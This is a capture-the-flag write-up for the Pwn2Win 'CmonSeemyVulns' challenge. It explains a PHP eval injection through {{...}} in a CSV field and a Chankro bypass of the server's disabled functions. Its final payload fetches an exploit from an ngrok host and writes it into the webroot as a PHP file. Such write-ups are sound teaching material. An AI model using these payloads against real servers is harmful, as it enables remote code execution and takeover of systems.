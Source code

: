 # [Pwn2Win] CmonSeemyVulns writeup

## Description:

![2021-05-30_21-03](https://user-images.githubusercontent.com/84577967/120118699-267d5280-c194-11eb-8fae-0fec1de1b704.png)

We are given source code with the Dockerfile.

[c_mon_see_my_vulns_70097e678d572b03e8098868191037f5c3518ca4a8d0512573845db8a293a153.tar.gz](https://github.com/ab2pentest/ctfwriteups/files/6566856/c_mon_see_my_vulns_70097e678d572b03e8098868191037f5c3518ca4a8d0512573845db8a293a153.tar.gz)

## Code Review:

![2021-05-30_20-54](https://user-images.githubusercontent.com/84577967/120118712-31d07e00-c194-11eb-9ca7-dea97992fbed.png)

Snipped code from: index.php (Only PHP Part !)

```php
<?php

function do_calcs($csv){
  preg_match_all("/{{([^}]*)}}/", $csv, $matches); # Line: 4
  
  foreach ($matches[1] as &$val){
    $csv = str_replace("{{" . $val . "}}", eval("return " . $val . ";"), $csv); # Line: 7
  }

  return $csv;
}

/* main */
if ($_SERVER['REQUEST_METHOD'] == "POST"){
  if (isset($_POST['csv'])){
    // do the math calculations
    $csv = trim(do_calcs($_POST['csv'])); # Line: 17
    $csv = str_replace("\r\n", "\n", $csv); // replace CRLF to LF

    $result = csv_parse($csv);
    print_r($result);
  }
  else{
    die("Missing param csv");
  }
}

?>
```

So in the 7th line we have an eval inside a function `do_calcs` that has been called in the line 17 ! 
But first we have to check the 4th line where we have the regex pattern so our php code must be inside `{{PHP EVAL CODE}}`

## Solution:

If we tries to send something like `200,{{phpinfo()}}` its going to be executed !

![2021-05-30_21-11](https://user-images.githubusercontent.com/84577967/120118671-fdf55880-c193-11eb-9db9-0f1846e00f00.png)

But what I noticed is disable functions

```
exec,system,passthru,shell_exec,escapeshellarg,escapeshellcmd,proc_close,proc_open,dl,popen,show_source,posix_kill,posix_mkfifo,posix_getpwuid,posix_setpgid,posix_setsid,posix_setuid,posix_setgid,posix_seteuid,posix_setegid,posix_uname,pcntl_exec,expect_popen
```

For such situations I always use Chankro => https://github.com/TarlogicSecurity/Chankro

First Let's build our payload:

```bash
python2 chankro.py --arch 64 --input shell.sh --path /var/www/html --output exploit.txt
```

The shell.sh content:

```
#!/bin/sh
/readflag > /var/www/html/flag.txt
```

Great! Now let's start a webserver using PHP or Python and move our exploit.txt to it and go directly to exploitation ...

```
200,{{file_put_contents("/var/www/html/exploit.php",file_get_contents("http://XXXXXXXXX.ngrok.io/exploit.txt"),FILE_APPEND)}}
```

After that we can browser the file http://127.0.0.1:1337/exploit.php

And will get easily our http://127.0.0.1:1337/flag.txt
